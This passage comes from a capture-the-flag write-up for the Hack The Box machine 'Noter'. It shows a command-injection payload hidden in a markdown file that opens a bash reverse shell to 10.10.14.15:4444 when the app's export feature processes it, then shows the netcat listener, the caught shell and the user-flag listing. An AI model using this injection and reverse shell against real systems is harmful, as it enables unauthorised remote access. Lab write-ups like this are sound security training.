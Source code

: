 After trying a couple times we see that the server only accepts a markdown file. Lets prepare one to send us a reverse shell:
```bash
caue@kali:~/htb/noter/www$ cat rce.md     
a'; bash -i >& /dev/tcp/10.10.14.15/4444 0>&1; echo 'a
```

Now we start a netcat listener on port 4444.
```bash
caue@kali:~/htb/noter$ nc -lnvp 4444
```

We go to http://10.129.172.62:5000/export_note, add our IP to the URL box, start a python web server to host the `rce.md` file and click on "Export":
![](images/image11.png)

We receive a connection back on the netcat listener:
```bash
caue@kali:~/htb/noter$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.172.62] 43380
bash: cannot set terminal process group (1247): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$
```
We can go to `/home/svc` and get the user flag.

```
svc@noter:~$ ls -la
total 44
drwxr-xr-x 8 svc  svc  4096 May  2 23:05 .
drwxr-xr-x 3 root root 4096 May  2 23:05 ..
drwxrwxr-x 3 root root 4096 May  2 23:05 app
lrwxrwxrwx 1 root root    9 Dec 27 09:04 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc  3771 Dec 23 14:13 .bashrc
drwx------ 3 svc  svc  4096 May  2 23:05 .cache
drwx------ 5 svc  svc  4096 May  2 23:05 .config
drwx------ 5 svc  svc  4096 May  2 23:05 .local
lrwxrwxrwx 1 root root    9 Dec 27 09:04 .mysql_history -> /dev/null
drwxrwxr-x 4 svc  svc  4096 May  2 23:05 .npm
drwxrwxr-x 5 svc  svc  4096 May  8 12:44 .pm2
-rw-r--r-- 1 svc  svc   807 Dec 23 14:13 .profile
-rw-r----- 1 svc  svc    33 May  8 12:45 user.txt
```
